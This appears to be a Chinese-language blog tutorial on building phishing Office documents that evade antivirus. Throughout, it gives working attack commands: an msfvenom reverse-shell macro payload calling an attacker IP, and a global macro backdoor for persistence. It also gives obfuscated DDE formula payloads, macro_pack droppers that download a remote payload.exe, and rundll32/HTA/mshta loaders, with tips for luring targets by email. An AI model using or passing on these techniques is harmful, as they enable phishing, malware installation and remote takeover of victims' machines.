

免杀文档制作
本文主要介绍一些钓鱼文档的制作方法。
1.office宏攻击
宏是微软公司为其OFFICE软件包设计的一个特殊功能，有着独特的文件后缀名，如：xlsm，docm，pptm等。
office：2016教育版
攻击机：kali 192.168.43.30
1.msf生成payload
1.先msf生成一段payload
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.30 LPORT=3333 -f vba -o shell.vba |
2.新建一个启用宏的office文档。
3.然后点击并勾选：文件-选项-自定义功能区-开发工具。
4.点击宏
5.创建一个新的文件宏，注意宏名只能为字母或汉字，不能为数字；选择宏的位置为第一步新建的启用宏的office文档的名字

6.将文本框里的代码全部替换为msf生成宏代码，Ctrl+s，关闭文本框，Ctrl+s，退出。
7.在靶机里打开office文档，启用宏，msf上线。
2.cs生成payload
步骤和msf生成payload制作木马一样，只不过需要将msf的木马替换为cs的MS Office Macro的马。
3.建立全局宏持久性后门
office宏除了用于钓鱼，还可以用来建立隐蔽的持久性后门。新建一个宏，位置要选择所有活动模版和文档。
在ThisDocument中写入宏代码，进行保存。
成功建立了一个隐藏持久性后门，打开任意文档都可以触发宏代码。
4.文件图标替换
生成宏的文档和正常的文档图标不一样
还没找到可以替换文档图片的方法，，，不过知道替换exe图片的一个软件：Restorator
5.缺点
类似office宏还有一些其它利用方式，如DOCX文档远程模板注入执行宏，还可以通过shellcode进行免杀处理。在实战中，首先尽可能社工目标的各种信息，取得对方信任，根据钓鱼的目标，修改文档的名字，通过邮箱进行发送，如xx公司采购说明。
office宏钓鱼存在几大不适用性：
1、对方电脑未使用office。
2、office默认禁用宏，打开文件会进行提示。
3、独特的宏文件后缀，docm，xlsm等，容易引起他人怀疑。
4、免杀性要求较高。
2.DDE
动态数据交换（DDE），它是在Microsoft Windows操作系统中实现的客户端/服务器通信方法。
在开源的openoffice中可以直接调用DDE函数，像=DDE(“cmd”;”/C calc”;”123”)这样调用。
而在正规的office套件中则移除了DDE函数，但是我们还是可以使用application|topic!item这一格式的三元表达式调用DDE。注意：该方法的提示窗口只提示application而不提示topic。
一些特性：
1、当excel遇到+和-会自动填充=成为公式，如
1 | +thespnquisition(cmd|'/c calc.exe'!A |
2、若打开的外部应用为8字符，excel自动忽略后面的字符，如下面的两个作用相同：
1 | =rundll32|'URL.dll,OpenURL calc.exe'!A |
3、将其他表达式或空格填充在恶意表达式之前
1 | =AA+BB-CC&"Hello"/12345&cmd|'/c calc.exe'!A |
4、通过windows batch的语法特性，填充无意义或是不影响执行逻辑的字符和指令，将topic字段混淆，如以下payload：
1 | =cmd|'/c REM.&&@p^o^w^e^r^s^h^e^l^l c:/*/*2/?al?.?x?"'!_xlbgnm.A1 |
所以经过解析后，实际执行的命令是:
1 | cmd.exe/c powershell c:/windows/system32/calc.exe |
当然，也可以使用字符串拼接的特性，将命令变为下面这样：
1 | =MSEXCEL|'\..\..\..\Windows\System32\cmd.exe /c REM.&&@p^o^w^e^r^s^h^e^l^l c:/*/*2/?al?.?x?"'!_xlbgnm.A1 |
msf也集成了这种攻击方式
1 | use exploit/windows/fileformat/office_dde_delivery |
3.power query DDE
如其名,DDE的一种。Power Query是微软Excel中一个强大的工具，利用该工具的漏洞可以远程执行嵌入的恶意payload。
Power Query ：https://support.microsoft.com/zh-cn/office/power-query-%E5%85%A5%E9%97%A8-7104fbee-9e62-4cb9-a02e-5bfb1a6c536a
Power Query特征可以使攻击者很容易并动态地嵌入远程内容。这种攻击很难检测，而且攻击者有更多的机会来入侵受害者机器。利用Power Query中的潜在漏洞，攻击者可以将恶意内容嵌入到payload中，但恶意内容本身并不会下载。
4.DDE + 宏+lolbin
具体的思路如下：使用宏远程下载一个hta文件，然后依靠dde加载该hta，hta为一个启动mshta的恶意程序。
首先，我们要建立一个使用宏远程下载的excel文件，如果会vbs的话可以自己进行编写，如果不会的话可以使用macro_pack进行辅助
macro_pack：https://github.com/sevagas/macro_pack
macro_pack windows程序：https://github.com/sevagas/macro_pack/releases/
我们的目的是使用它生成一个具有下载功能的excel。我们可以使用下面的方法进行生成：
1 | echo "https://myurl.url/payload.exe" "dropped.exe" | macro_pack.exe -t DROPPER -G "drop.xls" |
打开drop.xls，启用宏，就会自动下载url的payload.exe,并保存为dropped.exe，然后执行，msf上线。
但是我们要做到免杀，就不要求它进行执行，所以需要对宏代码做一定的修改：
将里面的ExecuteCmdAsync downloadPath给删除掉，并删除其构造代码，然后更改下载路径为你自己想要的路径，服务器地址为你的地址即可。
然后我们此时打开该文档，就会提示我们运行宏，我们允许，则会在我们刚才设置的地方下载好我们的hta文件。然后我们将宏代码保存为vba文件，使用下面的命令将其混淆：
1 | macro_pack.exe -f xxx.vba -o -G xxx.xls |
然后将宏代码保存为vba文件，使用下面的命令将其混淆：
1 | macro_pack.exe -f xxx.vba -o -G xxx.xls |
然后我们下面就需要调用我们的hta文件了。我们说过了，要使用dde，我们这里就使用dde去调用rundll32.exe去运行我们的hta文件：
1 | =MSEXCEL|'\..\..\..\Windows\System32\rundll32.exe url.dll,FileProtocolHandler c:\temp\payload.hta'!_xlbgnm.A1 |
有关rundll32具体信息请访问：https://support.microsoft.com/sk-sk/help/164787/info-windows-rundll-and-rundll32-interface
比如当前我们的hta内容如下，那么将执行内部代码弹出计算器.
1 | <HTML> |
但是，仅仅这样还是不够的我们还需要其他的，我们接下来再使用攻击中常见的一种手法，mshta攻击，用法如下：
1 | mshta.exe payload地址 |
首先使用msf开启监听，然后将这里：
1 | Set objShell = CreateObject("Wscript.Shell") |
改成mshta的利用语句并混淆，目标运行，成功上线：
https://lengjibo.github.io/execl/
https://mp.weixin.qq.com/s/lhg71lVHfp9PY1m8sYXA_A